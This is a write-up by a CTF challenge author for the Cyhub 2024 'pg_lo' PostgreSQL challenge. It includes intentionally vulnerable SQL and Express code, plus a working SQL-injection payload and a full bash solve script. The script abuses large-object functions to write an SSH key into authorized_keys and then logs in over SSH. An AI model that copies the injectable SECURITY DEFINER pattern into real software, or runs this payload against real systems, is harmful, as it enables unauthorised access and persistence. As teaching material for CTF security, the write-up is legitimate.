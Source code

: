 ```yaml
---
authors: [varik]
date: 2024-12-23
tags: [CTF, Cyhub2024, Postgres]
title: Cyhub CTF 2024 - pg_lo
---
```


# Cyhub CTF 2024 - pg_lo

At this year’s Cyhub CTF in Armenia, I decided to create some unique challenges. Since my work over the past year has been heavily focused on PostgreSQL, I came up with an interesting challenge involving [PostgreSQL Large Objects](https://www.postgresql.org/docs/current/largeobjects.html).

The task was solved by only one team, AIrucner, who also won the CTF.

## Challenge Description

**The challenge was described as follows:**

> Do we really need blob storage when we can store image files directly in PostgreSQL using large objects?
Recently, we cut our costs by migrating from S3 to PostgreSQL but haven’t had time to audit the code…
Who cares, right? If it works, it works. :)

Participants were provided with source code and a connection string, along with two accessible ports: 8080 and 2222.

## Challenge Goal

The challenge involved three components: a web server, a PostgreSQL database, and an SSH server.

The objective was to read the contents of the `/flag.txt` file.
The intended solution was to SSH into the machine and retrieve the flag file.

> The flag.png file was a rabbit hole.

## Challenge Explanation
 
The database was set up using an `init.sh` script, which performed the following actions:

- Created a database user `app_user` with a provided password.
- Loaded the `init.sql` file into the database.

The `init.sql` script initialized the necessary table and function for the challenge:

1. Tables and Roles:
  - Created a `messages` table.
  - Created a role `cyhub`.
  
2. Dummy Data:
  - Inserted dummy data into the messages table.
  - This data was unrelated to the flag, intended to mislead solvers into thinking they needed to access `flag.png`.

3. Vulnerable Function:
  - Created a `get_message` function as the `cyhub` user, declaring it with `SECURITY DEFINER`.
  - This meant the function always executed with cyhub’s privileges, regardless of the caller.
  - The function used `EXECUTE` and `format`, with `%s` formatting, introducing an SQL injection vulnerability.


```sql
CREATE TABLE messages(id INT PRIMARY KEY, msg TEXT, img_oid OID);

CREATE ROLE cyhub;

GRANT USAGE ON SCHEMA public TO app_user;
GRANT USAGE ON SCHEMA public TO cyhub;
GRANT CREATE ON SCHEMA public TO cyhub;

GRANT ALL PRIVILEGES ON TABLE public.messages TO cyhub;
GRANT EXECUTE ON FUNCTION pg_catalog.lo_from_bytea(OID, bytea) TO cyhub;
GRANT EXECUTE ON FUNCTION pg_catalog.lo_import(TEXT, OID) TO cyhub;
GRANT EXECUTE ON FUNCTION pg_catalog.lo_export(OID, TEXT) TO cyhub;

SET ROLE cyhub;

DO $$
BEGIN
    PERFORM lo_import('/images/flag.png', 1337);
    PERFORM lo_import('/images/1.png', 1);
    PERFORM lo_import('/images/2.png', 2);
    PERFORM lo_import('/images/3.png', 3);
    INSERT INTO messages(id, msg, img_oid) VALUES 
        (1, 'First Image', 1),
        (2, 'Second Image', 2),
        (3, 'Third Image', 3),
        (1337, 'Check this 1337 image!', 1337);
END $$;

CREATE OR REPLACE FUNCTION get_message(p_id TEXT) RETURNS TEXT AS $$
DECLARE
    result TEXT;
BEGIN
    EXECUTE format('SELECT encode(lo_get(messages.img_oid), ''base64'') as img FROM messages WHERE id=%s::INT', p_id) INTO result;
    RETURN result;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;

CREATE OR REPLACE FUNCTION get_messages() RETURNS TABLE (id INT, msg TEXT, img TEXT) AS $$
DECLARE
    query TEXT;
BEGIN
    RETURN QUERY
    SELECT messages.id, messages.msg, encode(lo_get(messages.img_oid), 'base64') as img 
    FROM messages;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;

RESET ROLE;

GRANT EXECUTE ON FUNCTION get_message(TEXT) TO app_user;
GRANT EXECUTE ON FUNCTION get_messages() TO app_user;

```
	

There's also a simple web-server written with `express`, which should be used to access the vulnerable function and perform the exploit.

```js
const express = require('express');
const { Client } = require('pg');

const app = express();
const port = 8080;

const client = new Client({
  user: 'app_user',
  host: 'localhost',
  database: 'postgres',
  password: process.env.APP_USER_PASSWORD,
  port: 5432,
});

client.connect();

app.get('/', (_, res) => res.sendFile(__dirname + '/index.html'));

app.get('/messages', async (req, res) => {
  const { id } = req.query;

  try {

    if (parseInt(id) === '1337') {
      return res.status(403).end();
    }

    let result = [];
    if (!id) {
      result = (await client.query('SELECT * FROM get_messages() WHERE id != 1337')).rows;
    } else {
      result = (await client.query('SELECT * FROM get_message($1)', [id])).rows.map(row => ({ id: 0, msg: '', img: row.img }));
    }

    res.json({ messages: result }).end();
  } catch (err) {
    console.error('Error querying PostgreSQL:', err);
    res.status(500).json({ error: 'Internal Server Error' });
  }
});

app.listen(port, '0.0.0.0', () => {
  console.log(`Server is running on http://localhost:${port}`);
});
```

## Exploiting the Challenge

By identifying the SQL injection vulnerability in `get_message`, solvers might initially try the common `COPY FROM PROGRAM` method 
to get a reverse shell. However, since the `cyhub` user is not a superuser, this approach wouldn’t work.


Instead, solvers needed to:
    - Create a large object containing their public key using `lo_from_bytea`.
    - Export the large object to `/var/lib/postgres/.ssh/authorized_keys` using `lo_export`.


Here’s the SQL payload to achieve this:

```sql
SELECT get_message(
    '1::int; 
     SELECT lo_from_bytea(31337, ''ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJwkzp4b8trXLEXMw1Co/TVynIvFzdXp/z1f4Xel1KT/''::bytea); 
     SELECT lo_export(31337, ''/var/lib/postgresql/.ssh/authorized_keys''); 
     --'
);
```

To execute this via the web server:
```sh
curl --get \
    --data-urlencode "id=1::int; SELECT lo_from_bytea(31337,'${PUBLIC_KEY}'::bytea); SELECT lo_export(31337, '/var/lib/postgresql/.ssh/authorized_keys'); --" \
    http://localhost:8080/messages
```

After putting the public key under `authorized_keys`, solvers could SSH into the machine and read the flag:

```sh
ssh -o StrictHostKeyChecking=no -p 2222 "postgres@127.0.0.1" -i /tmp/id_rsa cat /flag.txt
```

## Complete Solution

```sh
set -e

HOST=127.0.0.1
SSH_PORT=2222
WEBSERVER_PORT=8080

echo "Generating new keypair..."
ssh-keygen -t ed25519 -f /tmp/id_rsa -N "" -q -y > /dev/null

PUBLIC_KEY=$(cat /tmp/id_rsa.pub)
echo "Sending payload..."
curl --get -s -o /dev/null \
    --data-urlencode "id=1::int; SELECT lo_from_bytea(31337,'${PUBLIC_KEY}'::bytea); SELECT lo_export(31337, '/var/lib/postgresql/.ssh/authorized_keys'); --" \
    -H "Connection: close" \
    http://${HOST}:${WEBSERVER_PORT}/messages

echo "Reading flag...\n"
ssh -o StrictHostKeyChecking=no -p ${SSH_PORT} "postgres@${HOST}" -i /tmp/id_rsa cat /flag.txt
```

This challenge combined SQL injection and PostgreSQL’s large object API to craft the exploit. It was great to see AIrucner solve it without any hints!

The challenge source code can be found [here](https://github.com/var77/cyhubctf2024/tree/main/pg_lo)
